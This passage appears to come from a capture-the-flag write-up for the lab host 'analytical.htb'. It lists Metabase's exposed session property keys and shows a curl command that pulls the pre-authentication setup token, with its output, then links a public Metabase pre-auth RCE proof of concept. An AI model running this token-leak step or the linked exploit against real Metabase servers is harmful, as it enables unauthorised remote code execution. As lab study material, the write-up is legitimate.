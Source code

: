 ```bash
  "engines",
  "ga-code",
  "ga-enabled",
  "google-auth-client-id",
  "google-auth-enabled",
  "has-user-setup",
  "hide-embed-branding?",
  "instance-creation",
  "is-hosted?",
  "landing-page",
  "ldap-configured?",
  "ldap-enabled",
  "loading-message",
  "map-tile-server-url",
  "native-query-autocomplete-match-style",
  "password-complexity",
  "redirect-all-requests-to-https",
  "report-timezone-long",
  "report-timezone-short",
  "session-cookies",
  "setup-token",
  "show-lighthouse-illustration",
  "show-metabot",
  "site-locale",
  "site-url",
  "snowplow-available",
  "snowplow-enabled",
  "snowplow-url",
  "ssh-heartbeat-interval-sec",
  "start-of-week",
  "startup-time-millis",
  "token-features",
  "version",
  "version-info-last-checked"
]
```

This system is vulnerable, Pre-Auth in Metabase confirmed! (PoC)
```
curl -k http://data.analytical.htb/api/session/properties | jq '.["setup-token"]'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 74478    0 74478    0     0  82955      0 --:--:-- --:--:-- --:--:-- 82937
"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
```

---

## 🎯 **Exploit**

**[Metabase RCE Exploit](https://github.com/m3m0o/metabase-pre-auth-rce-poc)**
